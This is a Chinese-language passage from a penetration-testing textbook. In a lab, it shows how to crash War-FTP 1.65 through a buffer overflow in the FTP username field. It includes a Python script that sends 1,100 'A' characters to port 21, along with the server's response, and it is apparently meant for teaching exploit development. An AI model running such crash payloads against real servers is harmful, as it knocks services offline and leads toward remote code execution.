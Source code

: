 在 Immunity Debugger 中运行 War-FTP 时，我们可以找出如何利用其缓冲区溢出漏洞。

## 导致崩溃

在 第十九章 中，我们将使用一种叫做 *模糊测试* 的技术来寻找程序中的潜在漏洞，但现在，按照我的指导，使用特定的攻击字符串来让程序崩溃。在 FTP 登录的用户名字段中，我们将发送一个包含 1,100 个 *A* 的字符串，而不是一个用户名。与我们在前一个示例中本地攻击程序不同，这次我们将在 Kali Linux 中创建我们的利用代码，并将其设置为通过网络与 FTP 服务器进行通信。示例 17-1 展示了一个初步的利用代码，能够导致 War-FTP 程序崩溃。

### 注意

我们的利用示例是用 Python 编写的，但如果你更愿意使用其他语言，它们很容易移植到其他语言中。

示例 17-1. Python 利用代码导致 War-FTP 崩溃

```
root@kali:~# **cat ftpexploit**
#!/usr/bin/python
import socket
buffer = "A" * 1100
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) ❶
connect=s.connect(('192.168.20.10',21)) ❶
response = s.recv(1024)
print response ❷
s.send('USER ' + buffer  + '\r\n') ❸
response = s.recv(1024)
print response
s.send('PASS PASSWORD\r\n')
s.close()
```

在 示例 17-1 中，我们首先导入了 socket Python 库。接下来，我们创建一个名为*buffer*的字符串，其中包含 1,100 个*A*，并在 ❶ 设置一个 socket 来连接到我们运行 War-FTP 服务器的 Windows XP 机器的 21 端口。然后，在 ❷ 处，我们接收并打印出 FTP 服务器的横幅信息。我们的利用代码接着发送 `USER` 命令，并用 1,100 个 *A* 作为用户名 ❸，希望导致 FTP 服务器崩溃。

如果服务器响应并请求我们的密码，利用代码准备好使用密码 *PASSWORD* 完成连接。然而，如果我们的利用成功了，即使我们的凭据有效也无关紧要，因为程序会在完成登录过程之前崩溃。最后，我们关闭我们的 socket，利用代码结束。确保 Python 脚本是可执行的，可以使用 `chmod +x` 命令，并按照下面的示例运行利用代码。

```
root@kali:~# **chmod +x ftpexploit**
root@kali:~# **./ftpexploit**
220- Jgaa's Fan Club FTP Service WAR-FTPD 1.65 Ready
220 Please enter your user name.
331 User name okay, Need password.
```

如同之前的示例一样，我们希望通过一串 *A* 字符来覆盖保存的返回地址并导致程序崩溃。War-FTP 服务器发送欢迎横幅，提示我们输入用户名，然后询问密码。查看 Immunity Debugger 中的 War-FTP，如图 17-5 所示，看看我们的利用是否成功导致崩溃。
